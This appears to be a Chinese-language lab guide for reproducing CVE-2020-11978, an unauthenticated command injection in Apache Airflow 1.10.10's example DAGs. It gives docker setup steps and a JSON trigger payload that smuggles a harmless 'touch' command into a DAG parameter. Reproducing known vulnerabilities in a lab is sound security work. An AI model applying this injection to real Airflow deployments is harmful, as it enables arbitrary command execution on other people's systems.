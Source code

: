 # Apache Airflow 示例dag中的命令注入（CVE-2020-11978）

Apache Airflow是一款开源的，分布式任务调度框架。在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。

由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。

参考链接：

- <https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx>
- <https://github.com/pberba/CVE-2020-11978>

## 漏洞环境

依次执行如下命令启动airflow 1.10.10：

```bash
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

## 漏洞复现

访问`http://your-ip:8080`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![](1.png)

再点击执行按钮，在Configuration JSON中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`，再点`Trigger`执行dag：

![](2.png)

等几秒可以看到执行成功：

![](3.png)

到CeleryWorker容器中进行查看：

```bash
docker-compose exec airflow-worker ls -l /tmp
```

可以看到`touch /tmp/airflow_dag_success`成功被执行：

![](4.png)
